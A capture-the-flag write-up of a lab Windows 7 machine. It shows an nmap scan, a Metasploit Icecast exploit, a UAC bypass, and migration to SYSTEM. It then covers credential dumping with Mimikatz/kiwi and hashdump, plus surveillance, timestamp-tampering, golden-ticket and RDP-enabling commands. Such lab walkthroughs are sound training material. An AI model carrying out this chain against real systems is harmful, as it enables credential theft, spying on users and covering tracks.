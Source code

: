#CTF #Windows 

## Recon

```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-06-03T18:02:45
|_Not valid after:  2023-12-03T18:02:45
|_ssl-date: 2023-06-04T18:26:16+00:00; -1s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http          Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49159/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:78:13:67:F4:5D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:78:13:67:f4:5d (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-04T13:26:16-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-04 19:26:16
|_  start_date: 2023-06-04 19:02:21

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```
## Gain Access

Starting Metasploit and searching for Icecast. I select the module and set RHOSTS to target ip and exploit. And I am in.


## Escalate

Running `run post/multi/recon/local_exploit_suggester`
I am going to use `exploit/windows/local/bypassuac_eventvwr`
Background the meterpreter, then select it and set SESSION to the meterpreter session.
Then run it and we have root access.
`getprivs` -> SeTakeOwnershipPrivilege

## Looting
Migrate to this process now with the command `migrate -N spoolsv.exe`
And now I am `NT AUTHORITY\SYSTEM`

Now I am going to use Kiwi, the updated version on Mimikatz to dump passwords.
Typing `load kiwi`
To get all the passwords I use `creds_all`

## Post-Exploitation

Before we start our post-exploitation, let's revisit the help menu one last time in the meterpreter shell. We'll answer the following questions using that menu.

What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)
`hashdump`

While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?
`screenshare`

How about if we wanted to record from a microphone attached to the system?
`record_mic`

To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.
`timestomp`

Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?

Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain.
`golden_ticket_create`


One last thing to note. As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`